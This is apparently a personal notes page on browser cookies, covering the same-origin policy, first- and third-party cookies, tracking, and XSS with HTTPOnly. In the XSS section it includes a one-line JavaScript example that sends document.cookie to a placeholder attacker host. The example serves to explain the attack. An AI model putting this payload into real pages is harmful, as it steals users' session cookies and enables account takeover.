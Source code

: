 
### Cookie policy + Same origin policy {#cookie-policy-plus-same-origin-policy}

-   `same-site` is not involved here.
-   Cookie policy: Will send cookies to `effective domain` only
-   Same origin policy: When HTTPOnly not set, only a.com will only have access to cookies of `a.com` and never of `b.com`
-   See [CORS]({{< relref "20230302210256-cors.md" >}})


## Types {#types}

-   This distinction is based on the "current" page being viewed.
-   This distinction is browser side, the server/origin has no notion of 1st party/3rd party.


### 1st party {#1st-party}

Cookies that match the domain of the current site are referred to as first-party cookies.


### 3rd party {#3rd-party}

-   Disabled by firefox by default. AKA cross-site cookies
-   cookies set by a website other than the one you are currently on
-   If you load assets from Y.com in X.com, if Y.com is sending `set-cookie`, your browser will add Y.com cookies while you're in X.com.
-   Anytime you load anything from Y.com now, the cookies set previously by Y.com will be sent to Y.com allowing Y.com to track you.
-   They can come in many shapes and sizes, `<link>,<script>,<object>,<iframe>`
-   Using `HTTP referrer` header Y.com might also be able to track which websites you visiting.


#### Disabling 3rd party cookies {#disabling-3rd-party-cookies}

-   Even if in websites you click "do not accept cookies", the website might still do it behind the scenes so the safest thing to do is block 3rd party cookies in the browser settings. In that case even if you allow, they won't be able to track 3rd party cookies


## Security {#security}


### XSS {#xss}

-   Cookie can be accessed using [Javascript]({{< relref "20221126085225-javascript.md" >}})
    ```js
    new Image().src = `http://evil.co/steal.php?cookie=${document.cookie}`;
    ```
-   `HTTPOnly` cookie can help in making sure that JS can't access(r/w) the cookie. It'll only be sent back and forth between the server.
-   But even after using `HTTPOnly`, the attacker can still make request to legit server which uses those cookies. At which point you're f'ed. So just make sure attacker can't run JS inside ur application. But atleast they won't be able to login to the user account themselves because they'll never have access to the cookie.
